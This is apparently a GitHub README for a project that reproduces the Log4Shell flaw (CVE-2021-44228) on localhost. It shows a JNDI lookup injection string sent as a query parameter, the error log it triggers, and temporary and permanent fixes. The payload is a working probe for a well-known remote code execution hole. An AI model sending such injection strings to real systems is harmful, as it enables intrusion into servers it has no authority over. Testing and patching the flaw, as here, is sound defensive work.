 # Evaluate the Log4Shell: RCE 0-day  Issue

This repo contains the code to evaluate Log4j2 issue CVE-2021-44228 

## More details

* https://www.lunasec.io/docs/blog/log4j-zero-day/

## How to Test

Send GET request with query parameter as `${jndi:ldap://127.0.0.1:3089/}`. 

```
http://localhost:10000/test?userParam=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A3089%2F%7D
```

When above request is sent application tries to connect to ldap url and following errror is printed since that 
is not running in my machine. 

```
2021-12-14 09:10:25,055 http-nio-10000-exec-1 WARN Error looking up JNDI resource [ldap://127.0.0.1:3089/]. javax.naming.CommunicationException: 127.0.0.1:3089 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:237)
	at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at java.naming/com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1610)
	at java.naming/com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2752)
	at java.naming/com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:320)
	at java.naming/com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at java.naming/com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at java.naming/com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:204)
	at java.naming/com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at java.naming/javax.naming.InitialContext.lookup(InitialContext.java:409)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
	at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:221)
```

## Temporary Fix

You can update the `log4j2.xml` by adding `{nolookups}` to the log pattern.

* Original `%d{yyyy-MM-dd HH:mm:ss.SSS} %-5level [%X{trxid}] %c{1} [%t] - %msg %n`
* Updated `%d{yyyy-MM-dd HH:mm:ss.SSS} %-5level [%X{trxid}] %c{1} [%t] - %msg{nolookups} %n`

## Permanent Fix

* Update the log4j version to `2.15.0`. Check the fix in branch `update-log4j-to-2.15.0`
